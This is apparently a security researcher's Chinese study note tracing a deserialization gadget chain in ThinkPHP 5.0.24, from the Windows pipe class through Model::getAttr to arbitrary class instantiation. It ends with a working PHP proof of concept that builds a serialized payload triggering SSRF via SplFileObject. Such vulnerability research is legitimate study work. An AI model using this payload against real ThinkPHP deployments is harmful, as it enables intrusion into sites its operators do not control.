




# ThinkPHP 5.0反序列化利用链学习
---

## 安装环境
下面2个都要下载
[framework v5.0.24](https://github.com/top-think/framework/tree/v5.0.24)
[think v5.0.24](https://github.com/top-think/think/tree/v5.0.24)
并且将`framework`下载好后的`framework-5.0.24`改名为为`thinkphp`放到`think-5.0.24`文件夹中
这里直接在sublime中运行`/public/index.php`文件调试


## 利用链
入口还是利用`Windows`类触发`__toString()`
只不过没有`Conversion.php`，这里找到`thinkphp/library/think/Model.php`



有`$relation->append($name)`，`$relation`由`$relation = $this->getAttr($key);`而来
和5.1类似，`getAttr()`由`getData()`而来，`getData()`返回值又可控


<s>这里又和5.1后面类似了，还是存在`think/Request.php`</s>...

发现这里`hook`竟然变成了`静态属性`：归类管理，不属于某个对象，所以无法使用对象直接访问静态属性。类的内部可以使用 self。且不可序列化。

也就不可控了
<!--
随便找个`__call()`来用，这里我找到`thinkphp/library/think/view/driver/Think.php`

`$method`不可控,`append`方法无法利用
好的，这里我们路走死了🤦‍♀️
-->
换个思路,回到`Model.php`的`getAttr()`，看到

`$type[$name]`，`$value`也可控
跟到`readTransform()`方法，也就是传入的`$value`,`$type`可控


可以实例化任意类，且参数可控
找找`__construct()`，暂时未找到进一步可利用点,tcl
<!--
好的，路又死了
`thinkphp/library/think/cache/driver/File.php` 可以创建任意目录
`thinkphp/library/think/cache/driver/Sqlite.php` 创建SQLite数据库
 
 
 
实例化类找调用 __call()的 例如thinkphp/library/think/view/driver/Php.php
的display可触发eval，找display()

`class Command{}`的`run()`
`namespace think\view\driver; Think ` 的 `__call()`可以变相控方法名？

`class Template` new任意无参数类
找`call_user_func_array(`?
-->
有个可造成SSRF的原生类:`new \SplFileObject("http://0:2333/");`(记得要在前面加`\`过if条件判断)


## POC
### 实例化任意类测试(SSRF)
```php
<?php
namespace think\process\pipes{
    class Windows{
        public function __construct($s){
            $this->files = array($s);
        }
    }

}

namespace think{
    class Model{
        protected $data = ["c014"=>"http://0:2333"];
        protected $type = ["c014"=>"\SplFileObject"];
    }
}

namespace think\model{
    use think\Model;
    class Pivot extends Model{
    }
}


namespace{
    $string = new think\model\Pivot();
    $payload = new think\process\pipes\Windows($string);
    echo urlencode(serialize($payload));
}
```
